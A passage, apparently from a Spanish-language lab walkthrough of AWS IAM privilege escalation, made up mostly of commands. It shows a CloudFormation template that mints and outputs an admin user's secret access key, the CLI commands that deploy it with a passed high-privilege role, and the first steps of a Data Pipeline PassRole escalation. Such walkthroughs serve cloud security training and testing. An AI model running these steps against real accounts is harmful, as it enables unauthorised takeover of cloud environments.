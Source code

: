 ```json
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "AdminUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```

Ejecutamos los comandos finales:  
```bash
aws cloudformation create-stack --stack-name privesc --template-url https://Prueba-cpna.s3.amazonaws.com/IAMCreateUserPlantilla.json --role arn:aws:iam::037572360634:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20  

aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:037572360634:stack/privesc/42a69900-e77f-11ec-bb6b-0e95d0bbdd5b --profile privesc20  
```
		
## PassExistingRoleToNewDataPipeline  
### Permisos Requqeridos: iam:PassRole, datapipeline:CreatePipeline y datapipeline:PutPipelineDefinition  

```bash
aws iam list-attached-user-policies --user-name privesc21-PassExistingRoleToNewDataPipeline-user  

aws iam get-policy-version --policy-arn arn:aws:iam::037572360634:policy/privesc21-PassExistingRoleToNewDataPipeline --version-id v1  

aws sts assume-role --role-arn arn:aws:iam::037572360634:role/privesc21-PassExistingRoleToNewDataPipeline-role --role-session-name privesc21  

aws configure --profile privesc21  

aws sts get-caller-identity --profile privesc21  

aws datapipeline create-pipeline --name privesc --unique-id privesctest --profile privesc21  
```
